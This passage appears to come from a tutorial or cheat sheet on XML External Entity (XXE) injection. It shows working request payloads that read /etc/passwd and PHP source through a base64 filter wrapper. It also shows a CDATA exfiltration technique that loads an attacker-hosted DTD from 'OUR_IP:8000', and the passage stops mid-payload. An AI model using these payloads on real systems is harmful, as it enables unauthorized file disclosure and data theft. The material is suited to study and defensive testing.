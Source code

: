 ``` HTTP
Check your email root:x:0:0:root:/root:/bin/bash
xxe:x:1000:1000:xxe:/home/xxe:/bin/bash
 for further instructions.
[SNIP]....
```
**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
### Read file contains some of XML's special characters
#### Read PHP files using PHP wrapper
Encode PHP source files, such that they would not break the XML format when referenced.
- **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM 
"php://filter/convert.base64-encode/resource=index.php">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK

Check your email PCFET0NUWVBFIGh0bWw+DQo8aHRtbCBsYW5nPSJlbiI+DQoNCjxoZWFkPg0KCTx0aXRsZT5FbnRpdHkg
....
for further instructions.
[SNIP]....
```
#### Advanced Exfiltration with CDATA
To output data that does not conform to the XML format:
- Wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). and utilize XML Parameter Entities. 
- `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined.

- Attacker host
Create `xxe.dtd` with the content:
``` dtd
<!ENTITY joined "%begin;%file;%end;">
```
Start a python server:
``` bash
python3 -m http.server 8000
```
* Request to the target
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
```